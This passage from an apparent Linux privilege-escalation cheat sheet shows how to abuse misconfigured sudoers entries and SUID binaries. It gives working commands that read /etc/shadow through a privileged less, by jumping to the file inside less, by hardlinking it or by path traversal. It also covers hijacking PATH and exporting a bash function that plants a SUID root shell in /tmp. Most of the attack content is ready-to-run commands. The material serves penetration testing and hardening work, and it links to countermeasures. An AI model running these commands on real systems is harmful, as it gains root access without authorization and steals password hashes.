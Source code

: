 ### Sudo execution bypassing paths

**Jump** to read other files or use **symlinks**. For example in sudoers file: _hacker10 ALL= (root) /bin/less /var/log/\*_

```bash
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
```

```bash
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```

If a **wildcard** is used (\*), it is even easier:

```bash
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```

**Countermeasures**: [https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/](https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/)

### Sudo command/SUID binary without command path

If the **sudo permission** is given to a single command **without specifying the path**: _hacker10 ALL= (root) less_ you can exploit it by changing the PATH variable

```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```

This technique can also be used if a **suid** binary **executes another command without specifying the path to it (always check with** _**strings**_ **the content of a weird SUID binary)**.

[Payload examples to execute.](payloads-to-execute.md)

### SUID binary with command path

If the **suid** binary **executes another command specifying the path**, then, you can try to **export a function** named as the command that the suid file is calling.

For example, if a suid binary calls _**/usr/sbin/service apache2 start**_ you have to try to create the function and export it:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Then, when you call the suid binary, this function will be executed

### LD_PRELOAD & **LD_LIBRARY_PATH**
